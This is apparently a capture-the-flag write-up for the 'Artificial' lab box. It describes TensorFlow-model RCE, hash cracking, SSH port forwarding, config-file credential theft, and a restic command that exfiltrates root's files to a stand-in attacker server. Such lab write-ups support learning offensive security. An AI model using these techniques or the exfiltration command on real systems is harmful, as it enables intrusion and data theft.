




# 🤖Artificial

## 🧠Summary
> A quick TCP scan revealed only ports 80 (HTTP) and 22 (SSH). The web app was hosting a TensorFlow model upload interface with a Docker-based environment. Uploaded a crafted malicious model exploiting a known TensorFlow RCE vulnerability to gain a reverse shell. Enumerated internal files, cracked SSH password hash, and gained initial access. Found a backrest-based cron job interface running on internal port 9898. Port forwarded, extracted credentials from .config JSON, logged in, and created a repo with a malicious payload. Triggered the job to dump /root into my listener and captured the root flag.

## ↘️ASCII Visual
```text
[ Nmap ] → 80,22
      |
      v
[ AI model upload panel ]
      |
      v
Upload malicious model → RCE
      |
      v
Reverse shell → dump credentials → crack hash
      |
SSH login (user)
      |
      v
netstat: 127.0.0.1:9898 → Backrest Web UI
      |
      v
Find creds in .config → Login
      |
      v
Create malicious repo → Trigger cron job
      |
Data exfil to my server → /root access → root flag
```

## 🔎Nmap scan
- Ran an nmap scan to discover services:
  
- Found only:
    - 22/tcp - SSH
    - 80/tcp - HTTP

## 🌐Web Enumeration
- Navigated to the HTTP service on port 80.
- Found a site for uploading TensorFlow-based AI models.
- The site gave instructions to upload:
    - Dockerfile
    - requirements.txt
    - Python model script
- Used this blog [TensorFlow RCE Exploit](https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model) to craft a payload.
- Uploaded the malicious model and triggered execution via the interface.

- Got the reverse shell as a service-level user.


## 📌Loop hole
- Enumerated the system, found a local SQLite DB with login hashes
  
- Extracted the hashes and cracked them with John:
  ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
  ```
- Got valid credentials, logged in via SSH.
- Got user access

## ⚓Foothold
- Ran netstat -tulnp, discovered a service on 127.0.0.1:9898.
- Port-forwarded the service:
  ```bash
  ssh -L 9898:localhost:9898 gael@arificial.htb
  ```
- Found a Backrest Web UI that required login.
- Searched for config files:
  ```bash
  find / -name "backrest*" 2>/dev/null
  ```
- Located .config/backrest/config.json with base64-encoded password.
- Used the decoded creds to log in

## 🧪 Exploitation
- Created a new repo in the cron job panel.
- Wrote a script to dump /root into a backup:
  ```bash
  cp /root/root.txt /tmp/output.txt
  restic -r rest:http://attackerip:8000 backup /tmp
  ```
- Hosted a rest server:
  ```bash
  rest-server --path /var/restic --listen :8000
  ```
- Ran the cron job from the UI.
- Received the dumped data and extracted root.txt
